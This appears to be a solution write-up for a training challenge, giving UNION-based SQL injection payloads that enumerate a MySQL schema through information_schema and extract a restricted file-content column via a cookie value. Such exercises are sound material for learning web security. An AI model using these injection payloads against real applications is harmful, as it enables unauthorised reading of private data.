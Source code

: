 Solution: Challenge 6
======

## Vulnerability Type(s)

- SQL injection (UNION queries)

## Summary

SQL injection for information gathering from the MySQL schema

### To get the database name:
[select title from files where id =] 2 union all select DATABASE() as title from dual limit 1,1;

### To get the tables in the database (change limit to get others):
[select title from files where id =] 2 union all select table_name as title from information_schema.tables where table_schema = 'myapp' limit 2,1;

### To get the columns from the table:
[select title from files where id =] 2 union all select COLUMN_NAME as title from information_schema.columns where table_schema = 'myapp' and table_name = 'files' limit 3,1;

So we know the titles but "content" looks interesting, try selecting that using the info gathered so far:

- database name (schema)
- table name
- column name

### To get the contents of the file we're not allowed to see, set cookie to
[select title from files where id =] 2 union all select content as title from files limit 2,1


## Vulnerability

SQL injection allowing for arbitrary content inclusion